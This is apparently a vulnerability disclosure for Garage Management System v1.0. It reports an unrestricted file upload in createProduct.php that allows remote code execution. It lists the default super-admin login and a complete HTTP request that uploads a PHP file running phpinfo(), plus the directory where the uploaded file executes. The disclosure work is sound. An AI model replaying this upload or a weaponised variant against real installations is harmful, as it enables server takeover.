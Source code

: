 # Garage Management System v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: Hackerwang

vendors: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability url: ip/garage/php_action/createProduct.php

Loophole location: arbitrary file upload exists in Garage Management System's createProduct.php file (RCE).

Request package for file upload：

```sql
POST /garage/php_action/createProduct.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/garage/add-product.php
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=m6rramo7f8jalaggbvjh84b1mm
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------303732607214905
Content-Length: 1062

-----------------------------303732607214905
Content-Disposition: form-data; name="currnt_date"


-----------------------------303732607214905
Content-Disposition: form-data; name="productImage"; filename="hack.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------303732607214905
Content-Disposition: form-data; name="productName"

hello
-----------------------------303732607214905
Content-Disposition: form-data; name="quantity"

1111111
-----------------------------303732607214905
Content-Disposition: form-data; name="rate"

11111111
-----------------------------303732607214905
Content-Disposition: form-data; name="brandName"

1
-----------------------------303732607214905
Content-Disposition: form-data; name="categoryName"

5
-----------------------------303732607214905
Content-Disposition: form-data; name="productStatus"

2
-----------------------------303732607214905
Content-Disposition: form-data; name="create"


-----------------------------303732607214905--
```

The files will be uploaded to this directory \garage\assets\myimages

![image](https://user-images.githubusercontent.com/54017627/180589915-b461ed9a-2b50-41a6-853a-3a4b58924ef2.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/180589928-1ec1654b-ec62-4f61-aa27-eeb9fa115e51.png)

